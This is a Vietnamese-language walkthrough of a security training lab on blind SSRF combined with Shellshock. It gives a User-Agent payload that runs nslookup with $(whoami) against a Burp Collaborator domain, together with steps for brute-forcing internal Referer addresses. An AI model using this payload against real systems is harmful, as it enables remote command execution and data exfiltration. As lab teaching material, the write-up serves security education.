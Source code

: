 ## Blind SSRF with Shellshock exploitation

***Lab này sẽ hướng dẫn chúng ta tấn công shellshock mà không cần xác thực bằng cách sử đổi user-agent thành đoạn ngôn ngữ bash (description bảo vậy :v).***

Dưới đây là định nghĩa về 1 hàm shellshock thực thi hợp lệ

![](/imgs/CSRF/25.png?raw=true)

Ta sẽ bắt request của 1 post bất kì có **referer** và sửa **user-agent** lại thành đoạn lệnh tấn công shellshock.

```markdown
**User-Agent: () { :; }; /usr/bin/nslookup $(whoami).d2g3w36drwscrp50gyy9uuy4cvin6c.burpcollaborator.net**
```

Mục đích là để DNS tới Burp Collaborator + Referer sẽ sửa lại như ở description của lab để là 192.168.0.x:8080

Sau khi Brute từ 1->255 chúng ta sẽ Pool những request đã gửi tới, request sẽ có format domain là tên user ($(whoami)).host

![](/imgs/CSRF/26.png?raw=true)

Submit lên tên user là solve lab

![](/imgs/CSRF/27.png?raw=true)

### Tài liệu tham khảo
- [OSWAP Shellshock:](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)